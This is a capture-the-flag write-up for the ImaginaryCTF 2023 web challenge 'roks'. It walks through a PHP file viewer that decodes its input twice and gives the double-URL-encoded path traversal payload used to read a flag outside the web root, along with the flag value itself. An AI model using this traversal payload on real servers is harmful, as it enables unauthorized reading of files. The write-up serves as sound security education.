 ```yaml
---
title: 2023 ImaginaryCTF - roks
author: Gr33nM0nk3y
date: 2023-07-23 00:00:00 +0700
categories: [Write-ups, 2023imaginaryCTF]
tags: [Web Exploitation, write-ups]
---
```


* Points: 100

## Description

> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

### Attached

[roks.zip](https://imaginaryctf.org/r/0Sm4V#roks.zip)

## Analyzation

Check the docker file first
```docker
FROM php:8-apache

RUN /usr/sbin/useradd -u 1000 user

COPY index.php /var/www/html/
COPY file.php /var/www/html/
COPY styles.css /var/www/html/
COPY stopHacking.png /var/www/html/

RUN mkdir /var/www/html/images
COPY images/* /var/www/html/images
COPY flag.png /

VOLUME /var/log/apache2
VOLUME /var/run/apache2

CMD bash -c 'source /etc/apache2/envvars && APACHE_RUN_USER=user APACHE_RUN_GROUP=user /usr/sbin/apache2 -D FOREGROUND'
```

So the flag is at root directory, and the site is at ```/var/www/html/```

Check the ```index.php```

```php
xhr.open("GET", "file.php?file=" + randomImageName, true);
```

then ```file.php```

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

So we must do directory traversal, but we cannot use dot "." or slash "/".

Also, ascii code, like

```
%2e%2e%2f
```

will not work due to
```php
$filename = urldecode($_GET["file"]);
```

## Solution

Encode one time fails, so do it twice

```
%252e%252e%252f
```

The flag is
```
ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}
```